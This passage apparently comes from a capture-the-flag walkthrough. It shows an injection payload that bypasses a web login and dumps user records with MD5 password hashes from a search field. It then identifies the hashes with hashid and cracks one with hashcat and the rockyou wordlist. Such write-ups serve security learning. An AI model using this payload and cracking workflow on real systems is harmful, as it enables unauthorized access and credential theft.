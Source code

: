 > username: admin'||'1==1
> 
> password: pass

We are presented with a webpage with some info about the products as well as some search functionality. 

![image](https://user-images.githubusercontent.com/110564012/236976329-a853d70a-2e84-4dd9-a6d7-82d6569d0652.png)

Test the same payload in the seach field and see if it works there too. which returns the following json export of all users. 

\[{"\_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"\_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}\]

Hash Cracking
-------------

Run hashid to find out which format these are.

```text-plain
hashid -m 23c6877d9e2b564ef8b32c3a23de27b2

Analyzing '23c6877d9e2b564ef8b32c3a23de27b2'
[+] MD2 
[+] MD5 [Hashcat Mode: 0]
[+] MD4 [Hashcat Mode: 900]
[+] Double MD5 [Hashcat Mode: 2600]
[+] LM [Hashcat Mode: 3000]
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 [Hashcat Mode: 8600]
[+] Skype [Hashcat Mode: 23]
[+] Snefru-128 
[+] NTLM [Hashcat Mode: 1000]
[+] Domain Cached Credentials [Hashcat Mode: 1100]
[+] Domain Cached Credentials 2 [Hashcat Mode: 2100]
[+] DNSSEC(NSEC3) [Hashcat Mode: 8300]
[+] RAdmin v2.x [Hashcat Mode: 9900]
```

Now put these hashes into files to make it easier to pass into hashcat.

```text-plain
echo '23c6877d9e2b564ef8b32c3a23de27b2' > admin 
echo '6ebcea65320589ca4f2f1ce039975995' > josh 
```

Next run hashcat against each of these to try to crack the passwords.

```text-plain
hashcat -a 0 -m 0 -o out.txt josh /home/kali/Desktop/Wordlists/rockyou.txt
ession..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
```
